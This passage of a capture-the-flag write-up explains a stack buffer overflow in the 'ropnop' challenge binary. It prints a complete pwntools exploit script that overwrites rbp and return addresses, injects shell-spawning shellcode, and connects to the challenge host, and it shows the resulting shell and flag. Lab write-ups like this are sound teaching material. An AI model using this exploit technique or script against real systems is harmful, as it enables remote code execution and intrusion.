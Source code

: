 We can then also jump to it if we put its address a bit further down so the `ret` on the second run jumps to it.

So we use the first call to `read()` to cause a buffer overflow and jump back into `main` on return.
This time the call to `read()` will write our shellcode into memory which will then get executed on the second return.

The only problem left now is how to find an address in the binary to write to.
Conveniently `ropnop()` tells us exactly that:

```
[defusing returns] start: 0x55abd9e35000 - end: 0x55abd9e36375
```

We can just place our exploit somewhere in the beginning of the binary.
We only need to set `rbp` to the address we want to jump to plus 16 (because we write to `rbp-0x10`)
and leave a bit of space before that because the function also accesses `[rbp-0x18]`.

The complete exploit now looks like this:

```python
#!/usr/bin/env python3

from pwn import *
import re

MAIN_TARGET_OFFSET = 0x5555555552bb - 0x555555554000

p = remote("hax1.allesctf.net", 9300)

leak = p.recvline()
bin_addr = int(re.findall(b"start: 0x(.*?) ", leak)[0], 16)

payload = b"A" * 16
payload += p64(bin_addr + 0x20)                 # rbp
payload += p64(bin_addr + MAIN_TARGET_OFFSET)   # ret addr 1 (back to read in main)
payload += cyclic_find(b"kaaa") * b"A"
payload += p64(bin_addr + 0x10)                 # ret addr 2 (shellcode)

p.send(payload)
sleep(1)

p.send(asm(shellcraft.amd64.linux.sh(), arch="amd64", os="linux"))
p.interactive()
```

And running it gives us the flag:

```
$ ./exploit.py
[+] Opening connection to hax1.allesctf.net on port 9300: Done
[*] Switching to interactive mode
$ cat flag
CSCG{s3lf_m0d1fy1ng_c0dez!}
```
